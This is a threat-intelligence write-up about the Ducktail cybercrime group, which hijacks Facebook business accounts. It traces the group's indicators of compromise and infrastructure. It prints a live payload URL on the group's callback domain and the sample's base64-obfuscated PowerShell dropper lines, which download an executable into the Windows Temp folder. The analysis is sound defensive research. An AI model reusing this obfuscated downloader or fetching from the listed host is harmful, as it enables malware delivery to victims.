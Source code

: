 ![1](https://github.com/FofaInfo/Awesome-FOFA/blob/4789cc8a27479fce5a7125b4fc6821b61bf4281e/Storage/ducktail/ducktailen.png)

# Practical FOFA Asset Expansion：Ducktail

## Overview
Ducktail is a cybercrime team discovered in 2021 with Vietnamese origins. The group primarily targets Facebook corporate accounts, using malicious programs disguised as images, documents, and other files. They employ spear-phishing attacks to compromise individuals authorized to manage Facebook corporate accounts. Once they gain access to the target account, they publish advertisements, damaging the victim's reputation and generating profits.

This article analyzes publicly available Indicators of Compromise (IOC) and, during the FOFA reconnaissance process, not only identifies assets not covered by existing knowledge but also uncovers the Ducktail's repeated use of domain assets, reactivating previously offline assets.

## IOC Analysis
From the shared IOCs by Yogesh Londhe, two samples related to Ducktail were found:

![2](https://github.com/FofaInfo/Awesome-FOFA/blob/4789cc8a27479fce5a7125b4fc6821b61bf4281e/Storage/ducktail/ducktail2.png)

Using VT for sample analysis, the callback address was identified as gdfsgfdrgetgergdsf[.]tech.

![3](https://github.com/FofaInfo/Awesome-FOFA/blob/4789cc8a27479fce5a7125b4fc6821b61bf4281e/Storage/ducktail/ducktail3.png)

Downloading the associated jpg file revealed the presence of the Download-FileWithRetry function, enabling remote file downloads with retry functionality.

```
https://gdfsgfdrgetgergdsf.tech/file/ps/330d9d3b5819c6c71029767bfb8c0ae1.jpg
```

![4](https://github.com/FofaInfo/Awesome-FOFA/blob/4789cc8a27479fce5a7125b4fc6821b61bf4281e/Storage/ducktail/ducktail4.png)

Analysis of the function's call process reveals that the remote file download parameters are $cnxjunbsg + $egdac.

Download-FileWithRetry -url ($cnxjunbsg + $egdac) -destination ($lafaelcbl + $yzabgcjvrd);

The specific parameter values are:

```
$cnxjunbsg=[System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String("aHR0cDovL2dkZnNnZmRyZw=="));
$egdac=[System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String("ZXRnZXJnZHNmLnRlY2gvZmlsZS90L21haW5ib3QuZXhl"));
$lafaelcbl=[System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String("QzpcVw=="));
$yzabgcjvrd=[System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String("aW5kb3dzXFRlbXBcc3Zjekhvc3QuZXhl"));
```

Decrypting these base64-encoded parameters reveals their purpose: downloading an exe file from the website and storing it locally.
